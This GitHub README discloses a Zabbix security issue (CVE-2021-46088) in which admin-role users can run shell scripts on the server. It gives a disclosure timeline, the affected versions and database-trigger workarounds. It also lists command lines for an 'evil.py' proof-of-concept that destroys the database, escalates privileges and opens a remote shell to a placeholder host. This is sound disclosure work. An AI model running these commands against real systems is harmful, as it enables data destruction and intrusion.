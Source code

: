 # Zbxsec-7

## About

This repository contains a proof-of-concept of a security issue in [Zabbix](https://zabbix.com).

Any user with the "Zabbix Admin" role is able to run custom shell script on the application server in the context of the application user. The impact of this will vary, depending on OS, Zabbix version and how/which users are granted the "Zabbix Admin" role, but the users will probably have full database access and access to other secrets stored on the application server.

The issue is a "feature" that gives the "Zabbix Admin" role the ability to create actions that use remote commands and custom script. This custom script is run on the application server.

Links:

* https://www.zabbix.com/documentation/current/manual/web_interface/frontend_sections/configuration/actions
* https://www.zabbix.com/documentation/current/manual/config/notifications/action/operation/remote_command

Short history:

* The issue was reported to security@zabbix.com on July 30th, 2019 (4.2 was the newest version at this point).
* It was registered as https://support.zabbix.com/browse/ZBXSEC-7 on August 23rd, 2019.
* On Desember 10th, 2020, the Zabbix team was informed that after 90 days the issue could be posted publicly.
* The registered issue has had little activity. It was closed (and resolution set as "fixed") on Jan 29th, 2021.
* On Jan 27th, 2022, this was given CVE-ID [CVE-2021-46088](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-46088).
* The issue has not been resolved.

The issue is confirmed present in the following versions of Zabbix:

* 4.0 LTS
* 4.2
* 4.4
* 5.0 LTS

In 5.4 they've [changed the way scripts are managed](https://www.zabbix.com/documentation/5.4/en/manual/installation/upgrade_notes_540#central-location-for-scripts). You need to be granted access to the Administration-\>Scripts UI element. The normal Admin role does not have this access out of the box after 5.4. You may however create roles with this access and should be aware of the implication. The Super Admin role still has the ability to create custom scripts out of the box, and has the ability to damage the application-server.

This issue was just seen as "misconfiguration" by the Zabbix team, even though PoC is able to quite easily destroy the application in their own container images.

## Zabbix test instance

A test instance of Zabbix could be created with the "zabbix-simple" git submodule. It uses [podman](https://podman.io/getting-started/) and the [container images from zabbix](https://hub.docker.com/u/zabbix).

You should clone this repository with the `--recurse-submodules` argument or use `git submodule update --init` after a simple clone.

Follow the instructions in `./zabbix-simple/README.md`.

## Proof-of-concept

If you set up an instance with "zabbix-simple" you should have installed [pyzabbix](https://pypi.org/project/pyzabbix/), a user called "User" with the role "Zabbix Admin". The password of this user is the default password "zabbix".

Destroy database:

```
python evil.py --activate http://127.0.0.1:8080 User zabbix destroy-database
```

Escalation:

```
python evil.py --activate http://127.0.0.1:8080 User zabbix escalation User
```

Remote shell connecting to myhost.example.com:8000:

```
python evil.py --activate http://127.0.0.1:8080 User zabbix remote-shell myhost.example.com 8000
```

The trigger might need a few seconds/minutes to activate.

## Workaround

The only workaround I am aware of is through database triggers that prevent you from adding custom scripts.

### Postgres

```sql
CREATE FUNCTION raise_exception() RETURNS trigger AS $$
  DECLARE
    message TEXT;
  BEGIN
    message := TG_ARGV[0];
    RAISE exception '%', message;
  END;
$$ LANGUAGE plpgsql;

CREATE TRIGGER no_custom_script
BEFORE INSERT OR UPDATE ON opcommand
FOR EACH ROW
WHEN (NEW.type = 0)
EXECUTE FUNCTION raise_exception('No custom script');
```

### MySQL

```sql
DELIMITER //
CREATE TRIGGER no_custom_script_update
  BEFORE UPDATE ON opcommand
  FOR EACH ROW
BEGIN
  IF (NEW.type = 0) THEN
    SIGNAL SQLSTATE '45000' SET MESSAGE_TEXT = 'No custom script';
  END IF;
END //
CREATE TRIGGER no_custom_script_insert
  BEFORE INSERT ON opcommand
  FOR EACH ROW
BEGIN
  IF (NEW.type = 0) THEN
    SIGNAL SQLSTATE '45000' SET MESSAGE_TEXT = 'No custom script';
  END IF;
END //
DELIMITER ;
```
